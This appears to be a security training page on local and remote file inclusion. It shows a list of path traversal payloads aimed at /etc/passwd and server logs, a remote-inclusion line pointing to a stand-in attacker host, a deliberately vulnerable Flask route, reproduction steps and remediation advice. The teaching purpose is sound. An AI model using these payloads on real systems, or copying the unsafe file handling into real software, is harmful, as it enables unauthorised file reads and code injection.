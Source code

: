 # [⬅️](./README.md) LFI/RFI - Local/Remote File Inclusion

## Severity:
High/Critical
## Description:
Used to include remote content (internal/external) dynamically in the application.
| Kind | File Location             |
| ---- | ------------------------- |
| LFI  | from the server           |
| RFI  | from the client(attacker) |
```
🔐 https://bank/getContract?documentID=Contract_1.pdf
🔐 https://bank/getPage?page=help.html
🔐 https://bank/getPage?page=lang-fr.html
```
When the application fails to validate the origin of the remote content the page is requesting, an attacker can **make use of parameter tampering to control the path**.
> Now, what could happen if we start playing with the file specification?
```
../../../../../../etc/passwd
../../../../../../etc/passwd%00.pdf
../../../../../../apache/log/errors.log ****Code Injection
../../../../../../apache/log/access.log
C:\\boot.ini
http://badguy.com/maliciousfileRFI.txt
```
## Vulnerable code:
```python
@app.route("/home", methods=['POST'])
def home():
    filename = request.form['filename']
    if filename == "":
        filename = "text/default.txt"
    f = open(filename,'r')
    read = f.read()
    return render_template("index.html",read = read)
```
## Steps to reproduce the vulnerability:
Simply play with the `POST` request, sending different values for the `filename` field:
![lfi0](./img/lfi0.png)
Sending `filename:%2Fetc%2Fpasswd` (`/etc/passwd` url encoded) will result the following:
![lfi1](./img/lfi1.png)
## Remediation description:
* Avoid user input to include files.
* If really needed, do not refer to the files from it’s relative/absolute path.
    * Create indexes to represent the file names in a lookup table.
    * The user should be presented only the indexes values on the interface for authorized files.
* Have a white-list of allowed domains for file inclusion.
* Do strict input validation allowing only the standard name characters.
    `[a-zA-Z0-9_\.] / \ . %00 %2E %2F %5C %25` are dangerous characters.

## Remediation code:
* User input validation
* Whitelist of input